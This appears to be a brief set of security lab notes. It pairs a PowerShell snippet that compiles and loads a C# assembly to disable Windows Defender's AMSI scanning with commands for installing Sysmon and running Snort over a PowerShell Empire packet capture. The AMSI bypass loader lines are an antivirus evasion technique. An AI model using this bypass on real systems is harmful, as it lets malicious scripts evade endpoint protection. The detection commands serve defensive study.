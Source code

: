 
#Bypass Defender AV AMSI.dll

Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
[BP.AMS]::Disable()


#detect powershell using sysmon and wazuh

Sysmon64.exe -accepteula -i sysconfig.xml

Snort command line:

analyze pcap with snort
snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg -k none -q # check packets processing by snort.

